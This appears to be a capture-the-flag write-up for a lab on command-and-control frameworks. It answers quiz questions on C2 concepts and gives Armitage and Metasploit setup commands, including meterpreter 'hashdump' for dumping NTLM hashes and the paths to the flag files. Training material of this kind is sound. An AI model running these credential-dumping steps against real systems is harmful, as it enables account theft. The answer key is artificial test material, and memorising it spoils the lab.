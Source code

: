 Task 2

What is the term for the software on a compromised computer that communicates back to a command and control (C2) server?
Agent


What is the beaconing option that introduces a random delay value to the sleep timer?

Jitter


What is the term for the first portion of a Staged payload?

Dropper

What is the name of the communication method that can potentially allow access to a restricted network segment that communicates via TCP ports 139 and 445?

SMB Beacon

Task 5

Which listener should you choose if you have a device that cannot easily access the internet?
DNS

Which listener should you choose if you're accessing a restricted network segment?

SMB


Which listener should you choose if you are dealing with a Firewall that does protocol inspection?

HTTPS

Task 6

What is the Administrator's NTLM hash?

msfconsole -q
set LHOST <network-interface>
set RHOST <victim_ip>
run


meterpreter> hashdump


What flag can be found after gaining Administrative access to the PC?

Follow the steps on Task 4

git clone https://gitlab.com/kalilinux/packages/armitage.git && cd armitage
bash package
systemctl start postgresql && systemctl status postgresql.sh
export MSF_DATABASE_CONFIG=/root/.msf4/database.yml
cd /opt/armitage/release/unix && ./teamserver YourIP P@ssw0rd123
cd /opt/armitage/release/unix && ./armitage (in other terminal tab)

![Insert the correct info according to your Host IP Address](image.png)


![alt text](image-1.png)

Then, follow the steps on Task 4

![alt text](image-2.png)

![Your Machine IP Address](image-3.png)

![alt text](image-4.png)

![alt text](image-5.png)

![alt text](image-6.png)

![alt text](image-7.png)

After you gain access, the flag is at C:\Users\Administrator\Desktop\root.txt

What flag can be found after gaining access to Ted's user account?

After you gain access, the flag is at C:\Users\Ted\Desktop\user.txt

What is Ted's NTLM Hash?



msfconsole -q
set LHOST <network-interface>
set RHOST <victim_ip>
run


meterpreter> hashdump


